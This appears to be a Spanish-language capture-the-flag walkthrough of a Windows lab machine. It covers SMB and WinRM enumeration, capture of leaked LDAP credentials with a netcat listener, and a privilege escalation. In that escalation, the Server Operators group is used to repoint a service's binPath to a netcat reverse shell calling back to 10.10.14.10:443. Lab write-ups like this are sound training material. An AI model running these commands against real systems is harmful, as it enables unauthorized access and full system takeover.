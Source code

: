 ## Summary

Tags: #Windows #SMB #WinRM #ReverShell #Netcat #NetUser  #Nmap 

- IP -> 
- Ports -> TCP (53,80,88,135,139,389,445,5985), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80  -> HTTP microsoft IIS/10.0
    - 445 -> SMB
    - 5985 -> WinRM


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
Windows IIS (10.0)

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

```bash
❯ nc -nlvp 389 
```
Nos ponemos a explorar la pagina web y encontramos que podiamos hacer que la pagina al momento de hacerle Update, esta apuntara a nuestra IP y asi con nc ver el contenido y nos devuelve un User y una Passwd

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ smbmap -H ❮IP❯ -u 'null'            # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## User
Ahora podemos usar el puerto 5985 para poder ingresar con WINRM
```bash
❯ evil-winrm -i ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯         # Nos podemos conectar ya al servicio de administracion remota de Windows
```
Una vez adentro buscamos la flag del usuario user.txt en Desktop

Ahora nos disponemos a probar comandos para ver como poder escalar privilegios en la maquina Windows
```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetInpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato 
	# SetLoadPrivilege = Para usar el recurso de Tarlogic

❯  whoami /all                               # Miramos todos los privilegios
```

```bash
❯ systeminfo                                 # Nos copiamos todo lo que nos salga con ese comando y usaremos un programa llamado '' para deterctar vulnerabilidades en un equipo Windows, todo desde nuestra maquina Linux con el archivo que hemos creado con ese informacion obtenida.
```

```bash
❯ net user <USER>                            # Nos da detalles de nuestro usuario y vemos a que grupos pertenecemos. 


# Server Operators = Es un grupo en el que podemos administrar controladores de dominio, loggearse a un servicio interactivo, asi como crear, borrar recursos compartidos en la red, iniciar, parar servicios, back up, restaurar archivos, formatear el disco duro de la computadora y apagarla. Si pertenecemos a este grupo podemos cargar a la maquina victima Netcat.exe.
```

Ahora buscamos en Google la parte de Server Operators para ver que significa y que podemos hacer.
Los miembros de **Server Operators** pueden administrar el domain controller. Pueden hacer las siguientes acciones, iniciar sesión en un servidor de forma interactiva, crear y eliminar recursos compartidos de red, iniciar y detener servicios, realizar copias de seguridad y restaurar archivos, formatear la unidad de disco duro de la computadora y apagar la computadora. Este grupo no puede ser renombrado, eliminado o removido.

Por lo que nos ponemos a utilizar Netcat para poder entrar 
Buscamos el archivo nc.exe en la maquina atacante para despues subirlo a la maquina victima en el directorio Temp, ya que en ese directorio hay permisos de lectura y escritura.

```bash
❯ upload /home/omar/Documet/HTB/nc.exe       # Subimos el archivo Netcat a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
```

Despues podemos crear una revershell y ver si podemos crear un servicio 
```bash
❯ sc.exe create reverse binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443” # Le decimos al equipo victima que cuando arranque el servicio queremos que ejecute el netcat y nos ejecute una revershell contra el nuestro equipo por el puerto 443. (create=creamos el servicio, reverse=nombre del servicio) 

# Si no nos deja, hacemos lo siguiente:
❯ Services                            # Para ver los servicios que estan corriendo en Windows y asi ver si podemos cambiarle el binPath a uno, esto dependiendo si nos encontramos en el grupo de 'Server Operators' y asi podernos montar una revershell con algun servicio con sc.exe
❯ sc.exe config VMTools binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443” # Colocaremos un servicio que nos deje cambiar su binPath, el servicio va despues de config. (Nos saldra success)
```

## Root

```bash
❯ nc -nlvp 443 
```

Despues paramos el servicio que hemos reconfigurado y lo volvemos a iniciar para que se ejecute el netcat.
```bash
❯ sc.exe stop VMTools              # Paramos el servicio
❯ sc.exe start VMTools             # Iniciamos el servicio
```

Nos damos cuenta que ya somo **NT Autority System** y tenemos los privilegios de administrador, por lo que nos dirigimos a buscar la flag roo.txt

